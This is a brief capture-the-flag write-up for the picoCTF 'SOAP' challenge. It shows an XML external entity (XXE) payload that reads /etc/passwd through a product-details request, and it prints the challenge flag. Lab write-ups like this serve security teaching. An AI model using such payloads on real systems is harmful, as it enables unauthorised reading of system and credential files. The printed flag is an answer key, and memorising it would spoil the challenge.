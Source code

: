 ## SOAP

[Link to challenge](https://play.picoctf.org/practice/challenge/376)

Write-up:

1. The challenge name is referring to the Simple Object Access Protocol. We are told
to retrieve the `/etc/passwd` file.

2. Clicking the "Details" button for the first product gets us the following:
`<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>`

3. We can use XXE to exfiltrate the `/etc/passwd`: 
    ```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <data><ID>&xxe;</ID></data>
    ```

    This displays the flag: **picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}**
